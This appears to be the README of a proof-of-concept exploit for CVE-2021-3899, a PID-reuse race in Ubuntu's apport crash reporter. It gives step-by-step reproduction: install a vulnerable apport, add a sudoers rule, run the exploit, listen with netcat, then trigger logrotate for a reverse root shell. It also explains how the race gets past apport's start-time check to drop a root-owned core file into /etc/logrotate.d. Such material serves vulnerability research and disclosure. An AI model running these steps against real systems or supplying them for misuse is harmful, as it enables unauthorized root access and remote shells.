 # CVE-2021-3899 PoC

## Reproduce
0. Install an older version of apport: `sudo apt-get install apport=2.20.11-0ubuntu27` (any version <= 2.20.11-0ubuntu27.10 is fine, but you have to download the source code)
1. (optional) set small pid\_max. otherwise it will take a longer time to prepare for pid rollback. `echo 10000 | sudo tee /proc/sys/kernel/pid_max`
2. allow anybody to run ping as root: add `ALL ALL=(root) NOPASSWD: /usr/bin/ping` in /etc/sudoers
3. run multiple times of `ulimit -c unlimited; ./exploit`
4. you should see a file at `/etc/logrotate.d/core`
5. open another shell run `nc -lvcp 1234`
6. wait until logrotate is triggered, you can:
    1. adjust the clock one minutes earlier than crontab-daily trigger, and wait. (check /etc/crontab)
    2. run `sudo logrotate -vf /usr/sbin/logrotate /etc/logrotate.conf` to trigger logrotate immediately. (just same as `/etc/cron.daily/logrotate`)
7. there will be a reverse root shell connect to 127.0.0.1:1234

## Detail
Apport will check if pid is reused, by check if the start time of the process is later than apport self:
```
  # /usr/share/apport/apport
  594 apport_start = get_apport_starttime()
  595 process_start = get_process_starttime()
  596 if process_start > apport_start:
  597 error_log('process was replaced after Apport started, ignoring')
  598 sys.exit(0)
```

But this pid could be re-used just after apport launched. In such case, `get_apport_starttime() == get_process_starttime()`.

So, an you can let apport drop a core file with `-rw------- root:root`, if you can re-ocupy this PID with another process running under `uid==0`:
1. prepare a process X to crash, whose pid is A
2. repeating fork process, until current pid reaches A - 2
3. make process X crash, apport will be launched by kernel with pid A - 1. We kill process X, so pid A is now free.
4. run command `sudo ping 8.8.8.8` with cwd `/etc/logrotate.d/`. a process running under root:root will re-occupy pid A.
5. Since the start time of sudo and apport are same, the check of line 596 is bypassed. Apport then drop a core file of process X in /etc/logrotate.d
